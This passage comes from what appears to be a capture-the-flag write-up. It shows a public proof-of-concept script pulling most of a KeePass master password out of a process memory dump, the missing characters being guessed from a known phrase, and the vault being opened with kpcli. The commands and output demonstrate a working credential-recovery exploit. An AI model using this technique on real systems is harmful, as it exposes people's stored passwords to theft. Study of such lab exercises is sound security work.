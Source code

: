 ```

oxdf@hacky$ python keepass_dump/keepass_dump.py -f KeePassDumpFull.dmp 
[*] Searching for masterkey characters
[-] Couldn't find jump points in file. Scanning with slower method.
[*] 0:  {UNKNOWN}
[*] 2:  d
[*] 3:  g
[*] 4:  r
[*] 6:  d
[*] 7:   
[*] 8:  m
[*] 9:  e
[*] 10: d
[*] 11:  
[*] 12: f
[*] 13: l
[*] 15: d
[*] 16: e
[*] Extracted: {UNKNOWN}dgrd med flde

```

It knows it doesn’t know the 0 char, but it also skips the 1, 5, and 14 char as well (5 and 14 show up as “ø” in the original POC). Still, it’s enough to continue.

### SSH

#### Find Master Password

The exploit has a limitation of not getting the first character. The DotNet version also gives a list of possibilities for the second character, and gets the rest. Searching for the string minus the first two characters is enough to find a known phrase:

![image-20240204160300809](/img/image-20240204160300809.png)

It’s adding a “rø” to the front, which fits the pattern. Even the less complete output from the Python script works here:

![image-20240204160358454](/img/image-20240204160358454.png)

#### KeePass

That password works to get into the `passcodes.kdbx` file using `kpcli` (`apt install kpcli`):

```

oxdf@hacky$ kpcli --kdb passcodes.kdbx 
Please provide the master password: *************************

KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/>

```
